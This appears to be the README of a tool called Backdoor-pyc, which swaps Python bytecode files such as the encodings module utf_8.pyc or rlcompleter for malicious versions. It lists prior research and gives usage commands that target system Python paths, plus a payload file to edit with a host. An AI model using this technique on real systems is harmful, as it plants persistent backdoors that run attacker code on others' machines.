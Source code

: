 # Backdoor-pyc

Replace pyc files with malicious pyc files.


## Prior work


	https://www.virusbtn.com/virusbulletin/archive/2011/07/vb201107-reversing-Python#id3072912
	https://github.com/jgeralnik/Pytroj
	http://www.slideshare.net/iamit/infecting-python-bytecode

## Usage

	python27|python3X ./backdoor-pyc27.py -h

	Usage: backdoor-pyc27.py [-h] [-p PATH] [-l NIX] [-w WINDOWS]

	To replace utf_8.pyc with your code...

	optional arguments:
	  -h, --help            show this help message and exit
	  -p PATH, --path PATH  path to utf_8.pyc
	  -l NIX, --nix NIX     payload for nix
	  -w WINDOWS, --windows WINDOWS
	                        payload for windows



	*Make edits to the testing27.py file [HOST]*

	For python27
	python ./backdoor-pyc27.py -l testing27.py -p /usr/lib/python27/encodings/utf_8.py


	For python3.X 
	python3 ./backdoor-pyc3X.py -l testing3X.py -p /usr/lib/python3/rlcompleter.py -v 34  #notice version for python3



## Contributing

Pull requests welcome


